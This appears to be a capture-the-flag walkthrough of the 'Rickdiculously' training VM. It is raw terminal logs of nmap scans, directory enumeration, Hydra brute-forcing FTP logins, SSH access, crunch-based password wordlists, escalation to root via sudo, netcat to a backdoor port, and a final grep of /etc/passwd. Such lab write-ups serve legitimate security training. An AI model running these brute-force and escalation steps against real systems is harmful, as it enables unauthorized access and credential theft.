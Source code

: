 ┌──(kali㉿kali)-[~/OSCP/boxes/Rickdiculously]
└─$ sudo nmap -sT -A -T4 -Pn -n  -p- 10.0.1.11
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-10 08:01 CEST
Nmap scan report for 10.0.1.11
Host is up (0.00025s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE    VERSION
21/tcp    open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt
|_drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.1.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp    open  http       Apache httpd 2.4.27 ((Fedora))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.27 (Fedora)
|_http-title: Morty's Website
9090/tcp  open  http       Cockpit web service 161 or earlier
|_http-title: Did not follow redirect to https://10.0.1.11:9090/
13337/tcp open  tcpwrapped
22222/tcp open  ssh        OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|   2048 b4:11:56:7f:c0:36:96:7c:d0:99:dd:53:95:22:97:4f (RSA)
|   256 20:67:ed:d9:39:88:f9:ed:0d:af:8c:8e:8a:45:6e:0e (ECDSA)
|_  256 a6:84:fa:0f:df:e0:dc:e2:9a:2d:e7:13:3c:e7:50:a9 (ED25519)
60000/tcp open  tcpwrapped
|_drda-info: ERROR
MAC Address: 08:00:27:BF:52:95 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.25 ms 10.0.1.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.61 seconds



└─$ nmap --script vuln 10.0.1.11 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-10 08:07 CEST
Nmap scan report for 10.0.1.11
Host is up (0.00014s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
|_sslv2-drown: 
22/tcp   open  ssh
80/tcp   open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /robots.txt: Robots file
|   /icons/: Potentially interesting folder w/ directory listing
|_  /passwords/: Potentially interesting folder w/ directory listing
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-trace: TRACE is enabled
9090/tcp open  zeus-admin
|_sslv2-drown: 

Nmap done: 1 IP address (1 host up) scanned in 31.60 seconds


└─$ ftp 10.0.1.11

└─$ cat FLAG.txt   
ftp> get FLAG.txt
└─$ cat FLAG.txt                                          
FLAG{Whoa this is unexpected} - 10 Points
 

└─$ dirb http://10.0.1.11                 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Apr 10 08:21:41 2021
URL_BASE: http://10.0.1.11/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.0.1.11/ ----
+ http://10.0.1.11/cgi-bin/ (CODE:403|SIZE:217)                                           
+ http://10.0.1.11/index.html (CODE:200|SIZE:326)                                         
==> DIRECTORY: http://10.0.1.11/passwords/                                                
+ http://10.0.1.11/robots.txt (CODE:200|SIZE:126)                                         
                                                                                          
---- Entering directory: http://10.0.1.11/passwords/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sat Apr 10 08:21:41 2021
DOWNLOADED: 4612 - FOUND: 3


└─$ curl http://10.0.1.11/robots.txt                                                 127 ⨯
They're Robots Morty! It's ok to shoot them! They're just Robots!

/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*


└─$ curl http://10.0.1.11/passwords/FLAG.txt                                           1 ⨯
FLAG{Yeah d- just don't do it.} - 10 Points


https://10.0.1.11:9090/

FLAG {There is no Zeus, in your face!} - 10 Points


└─$ curl http://10.0.1.11/passwords/passwords.html
<!DOCTYPE html>
<html>
<head>
<title>Morty's Website</title>
<body>Wow Morty real clever. Storing passwords in a file called passwords.html? You've really done it this time Morty. Let me at least hide them.. I'd delete them entirely but I know you'd go bitching to your mom. That's the last thing I need.</body>
<!--Password: winter-->
</head>
</html>



└─$ hydra -L users.txt -p winter -t4 ftp://10.0.1.11
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-10 08:54:41
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking ftp://10.0.1.11:21/
[21][ftp] host: 10.0.1.11   login: Summer   password: winter
1 of 1 target successfully completed, 1 valid password found


└─$ ssh Summer@10.0.1.11 -p 22222                                                    255 ⨯

[Summer@localhost ~]$ more FLAG.txt 
FLAG{Get off the high road Summer!} - 10 Points


└─$ strings Safe_Password.jpg                 
JFIF
Exif
8 The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek

└─$ cat journal.txt
Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

Anyway. Here it is:

FLAG: {131333} - 20 Points 

[Summer@localhost ThisDoesntContainAnyFlags]$ more NotAFlag.txt 
hhHHAaaaAAGgGAh. You totally fell for it... Classiiiigihhic.
But seriously this isn't a flag..


┌──(kali㉿kali)-[~/OSCP/boxes/Rickdiculously]
└─$ ./safe 131333                                                                      1 ⨯
decrypt:        FLAG{And Awwwaaaaayyyy we Go!} - 20 Points

Ricks password hints:
 (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order


1 uppercase character
1 digit
One of the words in my old bands name.� @

crunch 10 10 -t ,%Curtains -O >> dict.txt
crunch 7 7 -t ,%Flesh -O >> dict.txt



from string import ascii_uppercase
for c in ascii_uppercase:
    for x in range(0, 10):
        print str(c) + str(x) + "Flesh"
        print str(c) + str(x) + "Curtains"

[RickSanchez@localhost home]$ sudo su
[root@localhost home]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@localhost home]# more /root/FLAG.txt 
FLAG: {Ionic Defibrillator} - 30 points

└─$ nc 10.0.1.11 60000                                         
Welcome to Ricks half baked reverse shell...
# ls
FLAG.txt 
# more FLAG.txt 
more FLAG.txt: command not found 
# cat FLAG.txt
FLAG{Flip the pickle Morty!} - 10 Points 

┌──(kali㉿kali)-[~/OSCP/boxes/Rickdiculously]
└─$ sudo nmap -sV -sS -p 13337 10.0.1.11                                               1 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-11 06:49 CEST
Nmap scan report for 10.0.1.11
Host is up (0.00015s latency).

PORT      STATE SERVICE VERSION
13337/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port13337-TCP:V=7.91%I=7%D=4/11%Time=60727FC0%P=x86_64-pc-linux-gnu%r(N
SF:ULL,29,"FLAG:{TheyFoundMyBackDoorMorty}-10Points\n");
MAC Address: 08:00:27:BF:52:95 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
                                                                                           
┌──(kali㉿kali)-[~/OSCP/boxes/Rickdiculously]
└─$ nc 10.0.1.11 13337             
FLAG:{TheyFoundMyBackDoorMorty}-10Points
 
grep '[a-zA-Z0-9]' /etc/passwd